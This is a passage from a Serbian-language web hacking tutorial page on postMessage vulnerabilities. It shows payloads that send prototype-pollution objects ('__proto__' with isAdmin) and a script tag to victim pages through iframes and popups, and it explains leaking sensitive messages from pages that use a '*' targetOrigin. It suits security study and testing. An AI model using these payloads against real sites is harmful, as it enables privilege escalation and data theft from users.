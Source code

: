 # PostMessage Vulnerabilities

## PostMessage ranjivosti

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Pošalji **PostMessage**

**PostMessage** koristi sledeću funkciju za slanje poruke:

```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```

Napomena da **targetOrigin** može biti '\*' ili URL kao što je _https://company.com._\
U **drugom scenariju**, **poruka se može poslati samo na tu domenu** (čak i ako je poreklo objekta prozora drugačije).\
Ako se koristi **zvezdica**, **poruke mogu biti poslate na bilo koju domenu**, i biće poslate na poreklo objekta prozora.

### Napad na iframe i zvezdicu u **targetOrigin**

Kao što je objašnjeno u [**ovom izveštaju**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), ako pronađete stranicu koja može biti **iframed** (bez zaštite `X-Frame-Header`) i koja šalje **osetljive** poruke putem **postMessage** koristeći **zvezdicu** (\*), možete **izmeniti** **poreklo** **iframe-a** i **procuriti** **osetljivu** poruku na domen koji kontrolišete.\
Napomena da ako se stranica može iframovati, ali je **targetOrigin postavljen na URL, a ne na zvezdicu**, ovaj **tri**k neće funkcionisati.
